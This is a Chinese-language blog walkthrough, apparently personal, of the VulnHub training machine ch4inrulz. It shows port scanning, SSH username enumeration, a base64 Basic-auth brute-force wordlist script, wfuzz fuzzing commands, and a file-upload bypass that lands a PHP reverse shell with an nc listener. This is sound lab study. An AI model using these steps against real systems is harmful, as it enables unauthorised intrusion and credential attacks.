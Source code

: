 ```yaml
---
categories:
- training
tags: 
- training
- port 80
- linux os
---
```


[download](https://www.vulnhub.com/entry/ch4inrulz-101,247/)

# scan
```
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8011/tcp open  unknown
```

## ftp
21/tcp open  ftp     vsftpd 2.3.5
## ssh
OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)

- https://www.exploit-db.com/exploits/45001/
OpenSSH < 6.6 SFTP - Command Execution
失败

- https://www.exploit-db.com/exploits/45233/
OpenSSH 2.3 < 7.7 - Username Enumeration
成功
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/2.PNG)
确认frank用户存在，但是爆破失败。笑容逐渐消失~~
## http-80port
`http://192.168.1.132/robots.txt`显示这个路径存在，心中一喜，访问看看。
`NOTHING here , yet !`
MD好贱呐！

## http-8011port
visit http://192.168.1.132:8011/
`Development Server !`

```
#nmap -sV -p 8011 192.168.1.132
8011/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
```
## info1
Apache/2.2.22 (Ubuntu) Server
http://192.168.1.132/development/ 有一个登陆页面

# Trying1
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/1.PNG)
输入用户名123，密码123，发现以123:123的形式base64编码。
于是可以尝试爆破。
![Screenshot from 2018-10-27 12-33-31](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/Screenshot%20from%202018-10-27%2012-33-31.png)
```
import base64
user = open("/usr/share/wordlists/rockyou.txt","r")
answer=open("/root/Desktop/302/answer.txt","w+")
while True:
	one = user.readline()
	#password = open("/usr/share/wordlists/rockyou.txt","r") 
	with open("/usr/share/wordlists/password.txt","r") as password:
		for one_password in password.readlines():	
			ans = one_password.strip("\n")+":"+one
			key = base64.b64encode(ans)
			answer.writelines(key+"\n")

user.close()
```
用burp intruder爆破，无果。
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/3.PNG)

好吧，看看writeup，我承认我菜了==

https://delosec.com/vulnhub-ch4inrulz-writeup/

## 划重点
当时我扫描到了api这个页面，其中提示了四个页面，说在建设中，我检查了前两个，不存在，我就当作四个都不存在。。。

当时的精力花在80端口破解登陆页面去了。。。
反省，需要另开一篇，复习踩点。

http://192.168.1.132:8011/api/files_api.php
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/4.PNG)

- 尝试get提交文件名
```
YOUR IP IS : 192.168.1.128
WRONG INPUT !!
```
- 尝试post提交文件名
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/5.PNG)
说明该php没有禁止post方式==

接下来我尝试了好久，找apache日志的地址，结果都是无用功。。

- nikto -h ip
找到了一个备份文件
http://192.168.1.132/index.html.bak

```
<html><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>
<a href="/development">development</a>
<!-- I will use frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0 as the .htpasswd file to protect the development path -->
</body></html>
```

ORZ，我爆破了那么久的口令，就藏在备份文件里了吗。。。
当我尝试`$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0`作为口令登陆失败，我意识到这可能是一个路径，而不是口令。

于是我找到了另一个登陆页面`http://192.168.1.132/development/$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0`

em。。？黑人问号

- 新知识点1
[Apache密码类型](https://httpd.apache.org/docs/2.4/misc/password_encryptions.html)
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/7.PNG)
以前遇到的都是加盐（salt）类型的mdf，md5($pass.$salt)。
这次遇到的这一串`$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0`
貌似是apache特有的加密方式==，长见识了。密码学没怎么学。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/6.PNG)

总之获得了frank:frank!!!口令，登陆后，看到了上传页面。

上传了一个png，然后找图片上传路径==，找了半天没找到。
看了wp，路径是/development/uploader/FRANKuploads

- 新知识点2
wfuzz的使用

```
-c 有颜色的输出
-z 扫描模式，可以字典扫描，数字范围扫描。。。
--hc 隐藏具体的响应代码，例如404,200之类的
FUZZ 是需要爆破替换的地址。
--basic 测试一个需要HTTP Basic Auth保护的内容
```

example:

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --basic "frank:frank!!!" --hc 404 "http://ip/development/uploader/FRANKFUZZ"

wfuzz -c -z range,1-65535 --hl=2 http://ip:60000/url.php?path=http://localhost:FUZZ
```

## 文件上传

1. nc -lnvp 1234
2. 选择/usr/share/webshells/php/php-reverse-shell.php
3. 开burp拦截，因为只允许图片类型
后缀改为gif，文件内容改为GIF98，点go就可以成功上传。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/12.PNG)
4. 绝对路径进行文件包含。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/8.PNG)
linux2.6，版本很低嘛，很明显的内核漏洞提权，快讲烂了==
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/13.PNG)

## 总结
wfuzz、nikto、johntheripper，复习了工具的使用。
明明知道怎么操作，但是就是因为字典或者工具的原因无法成功利用那才是灾难。。。
